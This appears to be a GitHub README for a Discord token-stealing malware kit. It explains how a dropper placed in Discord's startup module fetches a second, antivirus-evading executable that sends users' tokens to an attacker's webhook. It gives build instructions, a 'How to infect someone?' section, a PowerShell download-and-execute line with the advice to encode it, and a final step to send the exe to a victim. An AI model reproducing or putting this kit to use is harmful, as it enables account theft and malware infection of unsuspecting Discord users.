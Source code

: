 # Read Me
## What is this?
This token grabber inject an dropper inside discord_desktop_code module (wich is runned at the startup of the app) to download a secondary exe wich is the grabber (barely undetectable by antivirus) and send the token to a webhook
## Is it safe?
No, it's not safe, it's a token grabber, it's made to steal your token, don't use it if you don't know what you're doing
## How to infect someone?
go to the [Building Guide](#Building-Guide) section

# Building Guide
## Primary infector
### 1. Edit webhook url in `main.go`
```go
func main() {
    webhk_url := "YOUR_WEBHOOK_URL ENCODED USING BASE32"
}
```
### 2. Build
```bash
go build -o main main.go
```
### 3. Upload to your server / discord server
___
## Secondary infector (FUD directory)
### 1. Edit payload url in `main.go`
> powershell -c (New-Object System.Net.WebClient).DownloadFile('YOUR URL', 'C:\\Users\\Public\\main.exe'); Start-Process C:\\Users\\Public\\main.exe"


### encode the code above using binary 
```go
cmd := "YOUR_ENCODED_PAYLOAD"
```
### 2. Build
```bash
go build -o main main.go
```
### 3. Send this exe to your victim 